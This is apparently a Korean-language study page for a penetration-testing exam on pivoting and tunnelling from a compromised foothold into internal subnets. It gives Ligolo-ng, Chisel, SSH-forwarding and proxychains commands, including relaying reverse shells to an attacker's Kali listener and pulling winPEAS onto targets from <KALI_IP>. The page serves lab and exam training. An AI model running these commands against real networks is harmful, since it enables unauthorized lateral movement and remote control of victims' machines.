

# 피벗팅과 터널링 { #pivoting-tunnelling }

<div class="dfir-meta" markdown>
**중요한 곳:** AD 세트 — 내부 서브넷 접근 · **우선순위:** 높음 · **최종 수정:** 2026-10-23
</div>

!!! abstract "한 문장 요약"
    2025–2026년 후기에서 가장 많이 나오는 실패 원인입니다. 첫 머신은 땄는데 그 뒤의 내부망으로 트래픽을 못 넘기는 경우죠. 해결책이 피벗팅입니다 — 장악한 호스트가 내 도구의 트래픽을 안쪽으로 날라 주게 만드는 거예요.

!!! note "이 페이지 구성"
    자주 쓰게 될 핵심 명령을 담은 공부 지도입니다. 설정이 몸에 밸 때까지 랩에서 연습하세요 — 시험 시계가 돌아갈 때 문서를 읽고 있으면 안 되니까요. 시험 규칙 기억하기: **Metasploit 피벗 금지**(두 대 이상을 건드림)이라, 이건 단독 도구로 합니다.

## 피벗이 필요한 때 { #when-to-pivot }

아직 못 닿는 네트워크가 있다는 신호:

- 발판에서 `ipconfig /all` 또는 `ip addr` 이 다른 서브넷의 **두 번째 인터페이스** 를 보여줌.
- 어떤 호스트가 `127.0.0.1` 에만 묶인 서비스를 가지고 있음.
- BloodHound / 정보 수집이 Kali에서 ping이나 스캔이 안 되는 머신 이름을 보여줌.

문제의 모양: Kali는 발판과 통신할 수 있고, 발판은 내부 호스트와 통신할 수 있지만, Kali는 내부 호스트와 직접 통신할 수 없습니다. 그래서 발판을 거쳐 경로를 냅니다.



## Ligolo-ng — 기본 선택 { #ligolo-ng }

Ligolo-ng가 커뮤니티에서 가장 인기인 이유는 진짜 네트워크 인터페이스를 준다는 점이에요. 한 번 세팅하면 내부 호스트가 평범한 라우트처럼 동작하고, 도구마다 프록시 설정을 할 필요 없이 **모든** 도구가 그대로 통합니다. (아래 명령은 Ligolo-ng v0.6+ 기준입니다.)

**1. Kali에서 한 번만 — tun 인터페이스 만들기:**

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

**2. Kali에서 proxy(리스너) 시작:**

```bash
./proxy -selfcert          # 랩/시험용; 기본 0.0.0.0:11601 에서 대기
```

**3. 장악한 호스트에서 agent 실행**, Kali를 향하게 합니다:

=== "Linux 대상"

    ```bash
    ./agent -connect <KALI_IP>:11601 -ignore-cert
    ```

=== "Windows 대상"

    ```powershell
    .\agent.exe -connect <KALI_IP>:11601 -ignore-cert
    ```

`-ignore-cert` 는 `-selfcert` 와 함께 쓰는 랩/시험 전용입니다.

**4. proxy 콘솔에서 세션을 고르고 내부 서브넷 라우트를 추가:**

```text
ligolo-ng » session
ligolo-ng » interface_add_route --name ligolo --route 10.10.120.0/24
ligolo-ng » tunnel_start --tun ligolo
```

이렇게 하면 Kali가 `10.10.120.0/24` 에 직접 닿습니다 — `nmap`, `evil-winrm`, `impacket-*`, 브라우저, 뭐든지요. 스캔도 그대로 통과합니다(터널로는 TCP connect 스캔만: `nmap -sT -Pn`).

!!! tip "피벗을 통해 리버스 셸 받기"
    내부 호스트의 리버스 셸은 Kali에 직접 못 닿습니다. agent에 **리스너** 를 추가해 포트를 핸들러로 되돌려 주세요:
    ```text
    ligolo-ng » listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:4444 --tcp
    ```
    페이로드를 발판 IP의 `:4444` 로 향하게 하면, Kali의 `:4444` 핸들러(`nc`)로 중계됩니다.

!!! tip "agent 자신의 localhost에 닿기"
    장악한 호스트 자신의 `127.0.0.1` 에 묶인 서비스를 노리려면, Ligolo-ng가 쓰지 않는 대역 `240.0.0.0/4` 를 agent의 loopback으로 매핑해 줍니다:
    ```bash
    sudo ip route add 240.0.0.1/32 dev ligolo
    ```
    그다음 `240.0.0.1` 을 노리면 됩니다 — 예: `127.0.0.1:8000` 의 내부 관리자 페이지.

## 이중 피벗 { #double-pivot }

두 번째 호스트가 *세 번째* 서브넷을 열면, 또 다른 agent를 첫 번째를 거쳐 사슬로 잇습니다. 첫 agent에 proxy로 되돌려 주는 리스너를 추가하세요:

```text
ligolo-ng » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

호스트 #2에서 두 번째 agent를 그 포트의 **호스트 #1** IP로 접속시키고, 그 agent에 자체 tun 인터페이스를 준 뒤 세 번째 서브넷을 라우트합니다. 핵심: 각 홉이 제어 채널을 한 단계씩 되돌려, 결국 Kali까지 닿게 하는 거예요.

## Chisel — 대안 { #chisel }

Ligolo-ng를 못 쓸 때(바이너리가 탐지되거나 아키텍처가 특이할 때) Chisel이 reverse SOCKS 프록시를 줍니다. 그다음 `proxychains` 로 도구를 돌립니다.

```bash
# Kali (서버)
./chisel server -p 8080 --reverse
# 대상 (클라이언트) — Kali로 reverse SOCKS
./chisel client <KALI_IP>:8080 R:socks
```

`/etc/proxychains4.conf` 에 `socks5 127.0.0.1 1080` 을 추가하고, 도구 앞에 `proxychains -q` 를 붙입니다.

## SSH 포워딩 { #ssh-forwarding }

Linux 피벗에 SSH 접근이 있으면 업로드가 필요 없습니다:

| 목표 | 명령 | 효과 |
|---|---|---|
| 내부 포트 하나에 닿기 | `ssh -L 8080:10.10.120.142:80 user@pivot` | Kali `localhost:8080` → 내부 `:80` |
| Kali 포트를 피벗에 노출 | `ssh -R 4444:127.0.0.1:4444 user@pivot` | 피벗 `:4444` → Kali `:4444` (리버스 셸) |
| 서브넷 전체 SOCKS | `ssh -D 1080 user@pivot` | Kali `:1080` 에 SOCKS 프록시 → proxychains와 함께 |

## proxychains 메모 { #proxychains }

- 내장 피벗 기능이 없는 도구에 씁니다 (예: `proxychains -q impacket-psexec ...`).
- `proxychains nmap` 은 TCP connect(`-sT`)에 ping 없이(`-Pn`) 해야 하고, 느립니다 — 짧은 포트 목록만 스캔하세요.
- Ligolo-ng는 진짜 인터페이스를 주므로 보통 proxychains 자체가 필요 없어집니다.

## 내부 호스트로 파일 전송 { #file-transfer }

라우트가 잡히면 Kali에서 파일을 서빙하고 안에서 받아 갑니다:

```bash
python3 -m http.server 80           # Kali에서
```

```powershell
iwr http://<KALI_IP>/winPEAS.exe -OutFile C:\Windows\Temp\wp.exe   # 대상에서
```

Ligolo-ng를 통하면 대상이 터널로 Kali에 같은 방식으로 닿고, 리스너를 쓰면 SMB 서버(`impacket-smbserver share . -smb2support`)도 중계할 수 있습니다.

## 관련 페이지 { #related-pages }

- [Nmap](../../pentesting/recon/nmap/index.md) — 터널을 통한 스캔 (`-sT -Pn`)
- [네트워크](../../network/index.md) — 방어자 눈에 터널 / 중계 트래픽이 어떻게 보이는지
- [Active Directory](active-directory.md) — 피벗이 거의 항상 필요한 세트

## 참고 자료 { #references }

- [Ligolo-ng documentation](https://docs.ligolo.ng/)
- [Ligolo-ng — reaching the agent's localhost (240.0.0.0/4)](https://docs.ligolo.ng/Localhost/)
